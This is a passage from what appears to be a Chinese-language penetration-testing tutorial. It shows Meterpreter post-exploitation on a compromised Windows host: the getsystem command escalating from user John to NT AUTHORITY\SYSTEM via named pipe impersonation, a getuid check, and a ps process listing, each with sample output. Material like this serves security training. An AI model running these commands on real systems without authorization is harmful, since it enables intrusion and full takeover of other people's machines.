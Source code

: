     ```

    这些命令产生以下输出：

    ```
    **Server username: WS1\John**

    **Current pid: 2648**

    ```

1.  为了提升权限，我们可以使用`getsystem`命令：

    ```
    **meterpreter > getsystem**

    ```

    此命令产生以下输出：

    ```
    **...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).**

    ```

    然后使用`getuid`命令检查结果：

    ```
    **meterpreter > getuid**

    ```

    现在我们拥有系统权限，可以从命令输出中看到这一点：

    ```
    **Server username: NT AUTHORITY\SYSTEM**

    ```

1.  要列出远程系统上所有正在运行的进程，我们可以使用`ps`命令：

    ```
    **meterpreter > ps**

    ```

    输出列出了所有运行中的进程及其标识符和其他有用的信息：

    ```
    **Process List**
    **============**
    **PID   PPID  Name                 Arch  Session  User                          Path**
    **0     0     [System Process]** 
    **4     0     System               x64   0** 
     **12   4     smss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe**
    **384   376   csrss.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe**
    **400   816   audiodg.exe          x64   0** 
    **432   376   wininit.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe**
    **440   424   csrss.exe            x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe**
    **468   424   winlogon.exe         x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe**
